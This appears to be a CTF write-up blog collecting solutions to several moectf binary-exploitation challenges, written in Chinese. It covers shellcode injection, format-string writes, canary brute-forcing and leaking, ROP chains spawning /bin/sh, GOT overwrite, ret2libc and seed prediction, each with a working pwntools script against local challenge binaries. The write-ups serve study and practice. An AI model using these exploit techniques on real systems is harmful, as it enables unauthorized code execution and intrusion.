







# moectf ez\_shellcode


```python
from pwn import *
context.terminal = ['wt.exe','wsl']
context.log_level = 'debug'
context.arch = 'amd64'
p = process('./pwn')
p.recvuntil("age")
p.sendline('130')
p.recvuntil("you :\n")
buf_addr = int(p.recvuntil('\n').decode(), 16)
payload = asm(shellcraft.sh()).ljust(0x60+0x8,b'a') + p64(buf_addr)
p.recvuntil("say")
p.send(payload)
p.interactive()
```


## 分析


```
❯ checksec pwn
[*] '/home/pwn/pwn/moectf/ez_shellcode/pwn'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```



可以看到第一个输入名字就是我们的输入长度，然后还将输入地址打印出来，并且还有`RWX`区域，直接写入shellcode就好


# moectf leak\_sth

格式化字符串漏洞读指定位置数据


```python
from pwn import *
p = process('./pwn')
p.send(b'%7$ld')
p.recvuntil('name:\n')
num = int(p.recvuntil('G')[:-1])

p.send(str(num))
p.interactive()
```



通过`%7$ld`将栈上第7个参数的值读出，也就是读出了随机数v3,至于怎么知道是第7位，~~试出来的~~# moectf lockedshell

简单的`ret2text`，注意如果直接跳到后门函数起点存在对齐问题，直接跳到对system函数使用部分最好


```
from pwn import *
p = process('./pwn')
payload = b'b'*0x50+b'b'*0x8+p64(0x401193)
p.sendline(payload)
p.interactive()
```


# moectf LoginSystem


# fmt

个人认为没什么好讲的,可以看[这里关于64位格式化字符串的介绍](../whuctf2024/index.md)


```
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
p = process('./pwn')
#gdb.attach(p)
sys = 0x0000000000404050
payload = b'%9$ln'.ljust(8,b'\x00')+p64(sys)
p.sendline(payload)
p.sendafter(b'password',b'\x00'*0x8)
p.interactive()
```


# moectf moeplane


# 数组越界

盲打的题，很有意思，好像还有点拼手速（脚本就不需要手速了）


```
The plane is about to crash. Do something!
[CTR] Fly to airport at 69259509840.
[Meters]
  Altitude: 10000
  Velocity: 300
  Bank angle: 0
  Thrust: engine#1: 20; engine#2: 20; engine#3: 20; engine#4: 20;
[Navigator]
  Flight: 0
  Target: 69259509840
[MoePlane Console]
  0. Check the meters.
  1. Adjust engine thrust.
  2. Adjust trim.
  3. Win the game!
Make your choice:
>
```

连接之后会有这些显示，进行一番尝试之后只发现`1. Adjust engine thrust`有点可疑，因为似乎有修改数据的权限


```
Make your choice:
> 1
Which engine?
> -1
Thrust in percentage (0 ~ 100).
> 1
Adjusting engine #-1's thrust to 1[INFO] Done.
```

直接盲猜有负数的非预期输入，结果还真是，那接下来就很好解决了

看下题目给我们的提示：


```asm
struct airplane {
    long flight;
    int altitude; // 4 字节
    int velocity; // 4 字节
    int angle;    // 4 字节
    unsigned char engine_thrust[ENGINES]; // 距离 `flight` 12 字节
} moeplane;
```

我们输入的地方是`engine_thrust[ENGINES]`是一个数组元素，根据数组寻址的特性（基址+偏移），我们可以通过输入负数往上方数据写，把flight给覆盖掉，成为目标距离`69259509840`(等效十六进制0x1020304050)

同时别忘了小端序（这个不知道？看csapp去吧），并且flight为`long型（8字节）`，所以我们应该把flight改写为

`50 40 30 20 10 00 00 00`

分别对应`engine_thrust`基地址的

`-20 -19 -18 -17 -16 -15 -14 -13`

然后然后，这道题还有个`输入 - 1`在里面，坑人一把，所以应该输入的时候`+1`

exp：


```
from pwn import *
context(arch='amd64',log_level='debug')
p = remote('127.0.0.1',64479)
p.sendlineafter(b'>',b'1')
p.sendlineafter(b'>',b'-15')
p.sendlineafter(b'>',b'16')
p.sendlineafter(b'>',b'1')
p.sendlineafter(b'>',b'-16')
p.sendlineafter(b'>',b'32')
p.sendlineafter(b'>',b'1')
p.sendlineafter(b'>',b'-17')
p.sendlineafter(b'>',b'48')
p.sendlineafter(b'>',b'1')
p.sendlineafter(b'>',b'-18')
p.sendlineafter(b'>',b'64')
p.sendlineafter(b'>',b'1')
p.sendlineafter(b'>',b'-19')
p.sendlineafter(b'>',b'80')
p.interactive()
```

（手动输入应该也行，似乎有些拼手速）


# moectf catch\_the\_canary


# Canary

这道题使用两/三种Canary的绕过方式

详细请看[这里](../../Stack/Canary/index.md)


## 第一次绕过



第21-24行模拟了32位程序中爆破Canary的方法，

大道至简，一个个试


```python
p.sendline(str(0xabcd00).encode())
for i in range(0x00ffdcba,0x01000000):
    p.sendlineafter(b'n.\n',str(i).encode())
    rec = p.recvuntil(b']')
    if b'Error' not in rec:
        break
```


## 第二次绕过



这里v9的输入存在溢出，可以覆盖v10的值，但是在输入结束后会对v9[0]的值进行检查，那么有什么办法可以绕过输入呢？

有的，兄弟，有的

观察scanf函数，发现格式说明符是`%zu`(读取无符号整数)，解析规则为：

- 有效输入：数字0-9和前导空格
- 无效输入：包含非数字字符（如+，-，字母等），scanf会停止解析，不会修改目标变量，并返回0

所以我们可以输入`+`或`-`来跳过一次输入（准确来说，scanf输入都可以这样绕过）


```
p.sendlineafter(b't.\n',b'+')
p.sendline(b'1')
p.sendline(str(0xbacd003).encode())
```


## 第三次绕过

这次就是我们常见的覆盖截断泄露Canary了

多输入一位字符覆盖`\x00`，阻止输出截断，然后就可以得到canary的值


```
p.send(b'b'*25)
p.recvuntil(b'b'*25)
canary = b'\x00'+p.recv(7)
print(canary)
```


## 最终实现


```python
from pwn import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
p = process('./pwn')

#------------1--------------
p.sendline(str(0xabcd00).encode())
for i in range(0x00ffdcba,0x01000000):
    p.sendlineafter(b'n.\n',str(i).encode())
    rec = p.recvuntil(b']')
    if b'Error' not in rec:
        break

#-----------2-------------
p.sendlineafter(b't.\n',b'+')
p.sendline(b'1')
p.sendline(str(0xbacd003).encode())

#----------3------------
backdoor = 0x4012AD
p.send(b'b'*25)
p.recvuntil(b'b'*25)
canary = b'\x00'+p.recv(7)
print(canary)
p.send(b'b'*24+canary+b'b'*0x8+p64(backdoor))

p.interactive()
```


# moectf NX\_on


# canary

存在输入并将输入输出出来的部分，所以可以以此泄露canary,详细看[这里](../../Stack/Canary/index.md)


```
payload = b'a'*0x18+b'b'
p.recvuntil(b'id?')
p.send(payload)
p.recvuntil(payload)
canary = u64(b'\x00'+p.recv(7))
log.info("canary"+hex(canary))
```

接着是输入`buf2`，这里构造ROP链（我相信你已经可以看懂ROP链了，如果看不懂，再去写写其它题再来吧），稍后执行这里就行

接下来有个输入数值的，通过v5输入，然后可以控制`j_memcpy()`复制的长度

看到`unsigned int`就可以立刻想到输入一个负数，但是这里输入`-1`会出现问题，原因未知（懒狗懒得找了），随便试了试别的负数


```
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p = process('./pwn')
pop_rax = 0x00000000004508b7
pop_rdi = 0x000000000040239f
pop_rsi = 0x000000000040a40e
pop_rdx_rbx = 0x000000000049d12b
syscall = 0x402154
binsh = 0x00000000004e3950

payload = b'a'*0x18+b'b'
p.recvuntil(b'id?')
p.send(payload)
p.recvuntil(payload)
canary = u64(b'\x00'+p.recv(7))
log.info("canary"+hex(canary))

payload2 = b'B'*0x18+p64(canary)+b'c'*0x8
payload2+=p64(pop_rax)+p64(59)
payload2+=p64(pop_rdi)+p64(binsh)
payload2+=p64(pop_rsi)+p64(0)
payload2+=p64(pop_rdx_rbx)+p64(0)+p64(0)
payload2+=p64(syscall)

p.recvuntil(b'name?\n')
p.sendline(payload2)
p.recvuntil(b'quit\n')
p.sendline(b'-111')
p.interactive()
```


# moectf 这是什么？GOT！

这里程序直接读入到GOT表里面，并且保护为`Partial RELRO`,所以将`exit`的地址覆盖为`ubreachable`函数的地址就可以了，记得别覆盖`system`


```
from pwn import *
#p = process('./pwn')
p = remote('127.0.0.1',56063)
sys = 0x401056
un = 0x401196

payload = p64(0)*2+p64(sys)+p64(0)*4+p64(un)
p.send(payload)

p.interactive()
```

|  |
| --- |
| ida中可以查到`system`函数的plt表地址，.GOT初始值 |

|  |
| --- |
| 除了system，其它都分别覆盖掉，不需要的直接用0盖掉，exit用后门函数覆盖 |


# moectf 这是什么？libc!


# ret2libc

直接泄露给我们了puts的地址，还有libc在附件里，直接用就行


```
❯ checksec pwn
[*] '/home/pwn/pwn/moectf/prelibc/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

开启了NX和PIE，确实libc好做


```
from pwn import *

context(os="linux", arch="amd64")

#io = process('./pwn')
io = remote('127.0.0.1',58265)
libc = ELF("./libc.so.6")

io.recvuntil(b"0x")
libc.address = int(io.recv(12), 16) - libc.sym["puts"]

payload = cyclic(9) + flat([
        libc.search(asm("pop rdi; ret;")).__next__() + 1, # 即 `ret`，用于栈指针对齐
        libc.search(asm("pop rdi; ret;")).__next__(),
        libc.search(b"/bin/sh\x00").__next__(),
        libc.sym["system"],
])
io.sendafter(b">", payload)

io.interactive()
```

*直接用的官方wp*

这里解释一点，`libc.search(asm("pop rdi; ret;")).__next__() + 1`这里，本身libc搜到了`pop rdi； ret;`的地址，就返回为首地址，也就是`pop rdi`处，再加1就到了ret处，通过ret操作补全一下没对齐的栈# moectf 这是什么？random


# 伪随机数

生成随机数的种子为一年中当前天数-1.所以直接照抄源码里生成随机数的逻辑


```python
from pwn import *
from ctypes import *
from time import localtime
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
#p = process('./pwn')
p = remote('127.0.0.1',50656)

libc = cdll.LoadLibrary("libc.so.6")
libc.srandom(localtime().tm_yday - 1)

for _ in range(12):
    p.sendlineafter(b'\n',str(libc.random()%90000+10000).encode())

p.interactive()
```


# moectf Pwn\_it\_off


# stack

先介绍两个知识点

- 函数局部变量在函数返回时不会被清空，而是留在调用栈上原位置；函数调用时程序也不会主动清空先前同调用层级的函数残留的局部变量。
- `strcmp` 比对字符串，C 语言用 `'\x00'` 标志字符串末尾，同时 `strcmp` 字符串比对也会到此终止，从而绕过检查。

ida里查看各个函数，可以发现在`down`函数的功能是输出`flag`内容，但是在主函数中这个函数在`voice_pwd`和`num_pwd`之后，所以我们要想办法把这两个函数成功过掉

因为刚开始执行的那3个函数都没有参数调用，并且都是`main`函数的调用，所以这三个函数的栈底应该是一样的，也就是说之前函数执行留下的数据会被留在下一个函数的对应位置，如图



觉得这张图应该很清楚了，不会的话来捶我

接下来是小细节，写在exp里了

exp:


```python
from pwn import *
#p = process('./pwn')
p = remote('127.0.0.1',64393)
last_line = bytes()
while 1:
    line = p.recv() # 持续接受数据
    if b'[Error]' in line:  # 遇到[Error]时停止接受
        break
    last_line = line    # 记录最后一行的数据

password = last_line[28:28+15]  # 字节序列的28开始往后顺15个截留下来
p.send(password+b'\x00'+p64(12345)[0:7])    # 在第16位截断，后面不比较了就，接着塞进去一个5位数切成7字节，留给v1[1]
p.sendline(b'12345')    # 输入v1[0]就好
p.interactive()
```
